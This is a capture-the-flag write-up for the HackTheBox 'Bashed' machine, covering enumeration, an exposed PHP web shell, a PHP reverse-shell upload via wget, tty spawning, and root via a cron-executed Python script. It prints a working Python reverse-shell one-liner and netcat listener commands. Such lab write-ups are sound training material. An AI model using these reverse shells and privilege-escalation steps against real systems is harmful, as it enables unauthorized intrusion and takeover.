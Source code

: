 ```yaml
---
title: 'HackTheBox - Bashed'
date: '2021-10-19 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/bashed/bashed-pwned.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```


As always we start with our nmap scan.
```console
nmap -T4 -p- -A 10.10.10.68
```
-T4 specifies the speed at which we run the scan, the -p- option scans all 65535 ports, and the -A enables OS detection, version detection, script scanning, and traceroute.
Just the one port is open. Port 80 (http). And the Apache version is returned - Apache httpd 2.4.18

![nmap-scan-results](/assets/img/bashed/bashed-nmap-1.png)

Let's go check out the website at "http://10.10.10.68". We se an Arrexel development site for a web based terminal.

![arrexel-website](/assets/img/bashed/arrexel-site-2.png)


After a bit of enumeration of the site, there isn't much to be found. So we're going do some directory busting using ```gobuster```.
```console
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php
```

![gobuster-tool](/assets/img/bashed/go-buster-2.png)

So with the results gobuster returns, we go through each directory looking for something interesting. The /dev folder looks promising as that directory hosts the web shell. We might be able to do something with that.

![index-page](/assets/img/bashed/dev-index-3.png)

After selecting phpbash.php we are taken to the web terminal. From here we can navigate to the root folder, then home and into the user folder. From here we ```cat user.txt``` and get ourselves the user flag.

![user-flag](/assets/img/bashed/user-flag-4.png)

We list user privileges ```sudo -l``` and see we can switch into a user called ```scriptmanager``` without a password. we ```cd ../scriptmanager``` and ```sudo su scriptmanager``` to switch user, but we get a message saying no tty present. We need that command to be able to print terminal related info. Example:-
>sudo command is trying to execute a command that requires a password but sudo does not have access to a tty to prompt the user for a passphrase.

So we won't be able to proceed any further in this shell, but we can upload a reverse shell that we'll use to gain access.

![sudo-privileges](/assets/img/bashed/sudo-l-5.png)

In a browser navigate to "https://pentestmonkey.net/tools/web-shells/php-reverse-shell" and open the tar.gz file. Then open the "php-reverse-shell.php" file, and copy the contents.

![pen-test-monkey](/assets/img/bashed/monkey-shell-6.png)

From the terminal ```gedit shell.php``` and paste the copied code into the file. Navigate to lines 49 & 50 and change the IP to your tun0 address. You can leave the port number.

![reverse-shell](/assets/img/bashed/shell-7.png)

In a new terminal window start an http server ```python3 -m http.server 80```.

![http-server](/assets/img/bashed/http-server-8.png)

Next step is to navigate back to the the web shell and into the uploads folder ```cd /var/www/html/uploads```. Then ```wget http://10.10.16.2/shell.php``` (replacing the ip with your tun0 address). ```ls``` to confirm the reverse shell has been uploaded.

![shell-upload](/assets/img/bashed/upload-9.png)

Return to the terminal and start a listener with ```netcat nc -nvlp 1234```. Make sure to use the same port number as is in the reverse shell. Then head back to the browser and trigger the shell by navigating to "http://10.10.10.68/uploads/shell.php".
We see in our terminal that we have ourselves a shell.

![shell-success](/assets/img/bashed/reverse-shell-10.png)

We see we still don't have tty. We want to spawn one. In a browser navigate to "https://netsec.ws/?p=337". We'll go through the list of commands until we find one that works.

![netsec-cheatsheet](/assets/img/bashed/netsec-11.png)

For me the first command worked. Make sure however to change ```"/bin/sh"``` to ```"/bin/bash"``` as we want to get a bash shell  - ```python -c 'import pty; pty.spawn("/bin/bash")'```. You can see from the $ sign we've got tty. We try to swith user with sudo su scriptmanager but it doesn't work and does actually expect a password. A worksround here is ```sudo -u scriptmanager /bin/bash```. We are now scriptmanager.

![switch-user](/assets/img/bashed/su-12.png)

We ```pwd``` and see we're in the root folder. We ```ls -la``` to see what users have access to directories and files. Straight away the scriptmanager scripts folder stands out.

![list-privileges](/assets/img/bashed/ls-la-13.png)

Switch into the scripts folder, and type ```ls -la``` to see permissions. We ```cat test.py``` and see the file is writing to the ```test.txt``` file. From the current time and the timestamp on the ```test.txt``` file it looks as though the .py file is a scheduled task. You can ```ls -la``` again to confirm it's a chron job. We can overwrite the python file with a malicious one and get it to execute.

![replace-test-file](/assets/img/bashed/test-14.png)

Back to a browser head to "https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" and copy the python script. In a terminal ```gedit test.py``` and copy the script into the file. Remove python -c and the quotes. Alter the IP to your tun0 IP, and change the port number as we already used 1234, change ```"/bin/sh"``` to ```"/bin/bash"``` and save.

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP-HERE>",2345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

![test-file](/assets/img/bashed/test-15.png)

In out terminal we need to start a listener for the reverse shell to talk back to ```nc -nvlp 2345```.

![start-netcat](/assets/img/bashed/nc-16.png)

Then in our shell remove the test.py file as we're replacing it with the one we just created. Then ```wget http://10.10.16.2/test.py``` to upload the malicious file.

![wget-file](/assets/img/bashed/get-17.png)

Now that's uploaded we just have to wait for the chron job to trigger again. Once it does we can look at our terminal and see we have root privileges with ```whoami```. The system has been owned!

![rooted](/assets/img/bashed/root-18.png)

All that's left to do is to navigate to the root directory ```cd ../root```,  and collect our flag ```cat root.txt``` to fully pwn the system!

![root-flag](/assets/img/bashed/root-flag-19.png)


























































